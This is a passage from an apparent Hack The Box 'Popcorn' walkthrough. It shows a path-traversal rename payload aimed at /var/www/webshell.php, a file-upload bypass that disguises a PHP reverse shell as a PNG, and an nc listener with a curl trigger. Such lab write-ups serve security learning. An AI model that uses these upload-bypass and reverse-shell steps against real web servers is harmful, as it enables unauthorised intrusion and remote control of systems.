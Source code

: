 	# Payload
	filename=../../../../../../../../var/www/torrent/torrents/0a6d9ecd5140c68d05343c711de65ab7f23cf81e.btf&newfilename=../../../../../../../../var/www/webshell.php 
	```
	![]({{ page.img_path }}Pasted%20image%2020220917194723.png)
9. Unfortunately,  `webshell.torrent` did not contain any `PHP` code or our webshell.


## TCP/80 (HTTP) - File Upload Bypass on Torrent Host
1. After skimming through `torrenthost`, there is a function that allow users to insert an image to display on their torrent.
	```
	# Browse -> Select Webshell.php -> Edit This Torrent
	```
	![]({{ page.img_path }}Pasted%20image%2020220917195208.png)
2. After some testing,
	- `.jpg`, `.png` files are allowed
		![]({{ page.img_path }}Pasted%20image%2020220918002828.png)
	- `.php`, Invalid File
		![]({{ page.img_path }}Pasted%20image%2020220918003243.png)
3. How do we [bypass the file upload](https://yufongg.github.io/posts/Upload-bypass/) restriction?
	1. Change the file extension `.php -> .png`
	2. Change `Content-Type`
	3. Add a Magic Header `GIF89a`
4. Upload `php-reverse-shell.php` and bypass the restriction 
	```
	# Payload
	------WebKitFormBoundary2SsVFwbzBBilUqZy
	Content-Disposition: form-data; name="file"; filename="php-reverse-shell.png"
	Content-Type: image/png
	```
	![]({{ page.img_path }}Pasted%20image%2020220918003437.png)
4. Next, we have to find out where is `php-reverse-shell.png` stored
5.  It resides in `upload/`
	![]({{ page.img_path }}Pasted%20image%2020220918004105.png)
	- Notice the `Last modified` date.
6. Move it to `/var/www` w/ `rename/index.php`
	![]({{ page.img_path }}Pasted%20image%2020220918004351.png)
7. Start listener
	```
	┌──(root💀kali)-[~/htb/popcorn/10.10.10.6/exploit]
	└─# nc -nvlp 4444
	Ncat: Version 7.92 ( https://nmap.org/ncat )
	Ncat: Listening on :::4444
	Ncat: Listening on 0.0.0.0:4444
	```
8. Invoke reverse shell at `/var/www/shell.php`
	```
	┌──(root💀kali)-[~/htb/popcorn]
	└─# curl http://popcorn.htb/shell.php
	```
	![]({{ page.img_path }}Pasted%20image%2020220918004559.png)
9. Demo - Bypass restriction to upload webshell